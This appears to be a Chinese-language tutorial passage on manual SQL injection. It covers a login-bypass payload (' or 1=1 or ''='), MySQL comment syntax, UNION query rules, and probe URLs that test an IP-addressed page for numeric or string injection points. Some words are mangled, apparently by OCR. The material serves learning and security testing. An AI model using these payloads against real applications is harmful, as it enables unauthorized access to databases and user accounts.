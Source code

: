     `user = admin pass = ' or 1=1 or ''='`  

    ```php
    select * from user where username=' admin ' and password=' ' or 1=1 or ''=' '
                                      1         and          0   or  1  or  1  ==>  0 or 1 or 1  ==>  1
    ```

![image](assets/image-20240819204730-o631qlg.png)

## 手工注入

手工注入(英文名：Manual Injection),SQL注入有很多自动化工具，但是因为自动化工具不足以应对复杂情况，所以需要手动注入。

#### 手工注入和自动化注入区别?

自动化注入是通过使用已经编写好的脚本或者工具进行$QL注入操作，因针对简单环境工具或脚本已经足够注入使用，在注入过程中可以通过工具上的功能模块较方边的进行SQL注入操作。

### 在什么情况下会使用手工注入?

1. 在Web较复杂；
2. 自动化工具和脚本无法成功的进行SQL注入。

### 手工注入流程

mysql注释方法

1. `-- 注释内容;`  -- 后面是有一个空格的。-- 后面的内容将不会被识别，因此需要在下一行加上分号来结束该语句;
2. `#注释内容`   不能实现多行注释
3. `/*注释内容 */`   这种注释能够实现多行注释。

## 联合查询

* 联合查询顾名思义及使用拼接联合方式将2组或多组关键值拼凑起来进行查询
* ```java
  select 字段名1,字段名2...字段名n from 表名1 union select 字段名1,字段名2...字段名n from 表名2
  ```

* 每个 SELECT 语句必须拥有<span data-type="text" style="background-color: var(--b3-font-background8);">相同数量的列</span>
* 每个 SELECT 语句中的列的<span data-type="text" style="background-color: var(--b3-font-background9);">顺序必须相同</span>
* union查询只可用于select语句。
* 数据库查询的内容会被直接输出到页面中。
* union关键字默认去重，如果使用union all可以包含重复项。

1. 判断是否存在注入漏洞，识别注入点类型

    ```sql
    http://1.14.28.17:46649/string.php?id=1and1=1%23
    http://1.14.28.17:46649/string.php?id=1and1=2%23
    //非数字型
    http://1.14.28.17:46649/string.php?id=1'and1=1%23
    http://1.14.28.17:46649/string.php?id=1'and1=2%23
    //字符型
    ```
  ```